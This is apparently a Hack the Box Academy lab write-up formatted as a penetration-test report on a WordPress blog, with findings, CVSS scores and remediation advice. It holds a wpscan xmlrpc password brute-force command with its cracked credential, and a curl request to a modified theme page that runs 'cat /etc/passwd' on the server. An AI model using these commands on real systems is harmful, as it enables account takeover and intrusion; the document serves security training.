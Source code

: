 ```yaml
---
title: Hack the Box
subtitle: "Attacking WordPress"
author:
  - errbufferoverfl
date: 2023-10-21T19:23:04+11:00
categories:
  - Learning
  - Hack the Box
  - Hack the Box Academy
  - Offensive
  - Wordpress
---
```


## Summary

During the course of the assessment **Sec Sad World** exploit a number of security weaknesses in the Inlane Freight WordPress blog resulting in full administrative compromise and remote code execution. Below, we detail the steps taken from host enumeration to compromise. 

The intent of the attack chain is to demonstrate to Inlane Freight how individual weaknesses fit together to create vulnerabilities, demonstrating the overall risk to the client environment, informing the vulnerability triage process and remediation efforts.

While other findings shown in this report could be leveraged to gain a similar level of access, this attack chain shows the initial path of least resistance taken during testing to achieve the outcome.

## Attack Chain: Compromising WordPress

**Sec Sad World** performed the following to full compromise the the `blog.inlanefreight.local` website.

1. **Sec Sad World** used nmap to enumerate the hosts in scope ([Appendix A. Scope](#Appendix%20A.%20Scope)) and identify targets of interest. Fingerprinting of blog.inlanefreight.local identified it as a host of interest as it was running WordPress 5.8.
2. `wpscan` was used on blog.inlanefreight.local to identify the admin and doug user accounts that could be quickly brute-forced using `xmlrpc`.
3. Using `wpscan` and the `rockyou` password list, Sec Sad World brute-forced and obtained the password for the doug user account. Using this password, Sec Sad World logged in to the WordPress administrative interface.
4. Once authenticated, Sec Sad World located a disabled theme and made modifications to the `404.php` page, adding in functionality that would allow Sec Sad World to execute remote code on the operating system.
5. Once updated, Sec Sad World was able to operating system command injection using `cURL` exposing sensitive information such as the contents of `/etc/passwd` and the contents of the `flag.txt` file located in the web root.

- Exposure of Sensitive Information to an Unauthorized Actor
- Improper Restriction of Excessive Authentication Attempts
- Weak Password Requirements
- Insufficient Logging
- Gain administrative privileges
- Inclusion of Functionality from Untrusted Control Sphere
- Execution with Unnecessary Privileges
- Results in remote code execution
- Exposure of Sensitive Information to an Unauthorised Actor

Alternative paths:
- Use of Unmaintained Third Party Components

## Findings

### Weak Password Requirements

*The affected host does not require users to have strong passwords, making it easier for threat actors to compromise user accounts.*

- **CWE:** CWE-521
- **CVSS 3.1 Score:** 9.1 Critical
- **CVSS 3.1 Temporal Score:** 8.7 High
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N/E:H/RL:O/RC:C
- **Security Impact:** When successfully exploited, weak password requirements can result in a threat actor gaining long-term unauthorised access to the users account. Depending on the permissions associated with the compromised account, impact can vary.
- **Affected Hosts:** blog.inlanefreight.local

#### Reproduction

The following figure shows using WPScan and the `rockyou.txt` password list against `blog.inlanefreight.local` to brute-force the password for the user account `doug`. 

`xmlrpc` is used as it is faster than HTTP-based password brute-forcing.

```
wpscan --url http://blog.inlanefreight.local --password-attack xmlrpc -t 20 -U doug -P ~/Sauce/SecLists/Passwords/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.inlanefreight.local/ [10.129.107.187]
[+] Started: Fri Oct 27 08:51:01 2023

...

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

...

[+] Finished: Fri Oct 27 08:51:40 2023
[+] Requests Done: 799
[+] Cached Requests: 41
[+] Data Sent: 393.439 KB
[+] Data Received: 448.799 KB
[+] Memory used: 284.395 MB
[+] Elapsed time: 00:00:38
```

#### Remediation



### Exposure of Sensitive System Information to an Unauthorized Control Sphere

*The affected host does not properly prevent sensitive system-level information from being accessed by unauthorised actors who do not have the same level of access to the underlying system as the product does.* 

- **CWE:** CWE-497
- **CVSS 3.1 Score:** 8.6 High
- **Temporal Score:** 8.0 High
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N/E:F/RL:O/RC:C
- **Security Impact:** When successfully exploited the affected component reveals system data to unauthorised parties. Depending on the information returned, impact can vary.
- **Affected Hosts:** blog.inlanefreight.local

#### Reproduction

```{.shell-console}
curl -s http://blog.inlanefreight.local/wp-content/themes/twentytwenty/404.php?0=cat%20/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

#### Remediation

This class of weakness is typically introduced during the design and implementation phase of the software development life-cycle. To mitigate the impact of this weakness, and reduce the likelihood of re-occurrence:

- Migrate the management of production-based WordPress instances to a centrally managed Continuous Integration / Continuous Deployment (CI/CD) pipeline.
- Disable or limit access to the WordPress web interface that allows plugin and theme modification.
- Enforce quality assurance & security checks on the CI/CD pipeline, for example Static Application Security Testing (SAST), can find some instances of this weakness by analysing source code and prevent deployment.
- Ensure any theme or plugin developers are provided ongoing training and education on common PHP security vulnerabilities, how to identify and prevent them.
- Implement security auditing & monitoring on sensitive actions such as theme and plugin modification to ensure the timely identification of unauthorised actions.

## Appendix A. Exploited Systems

- blog.inlanefreight.local

## Appendix B. Compromised Users

The following is a list of user accounts compromised in the course of the assessment.

| Username | Type | Method | Notes |
|----------|------|--------| ----- |
| doug | Wordpress Administrator | Password Brute Forcing | |

## Appendix C. Changes Made to the System & Artefacts Cleanup

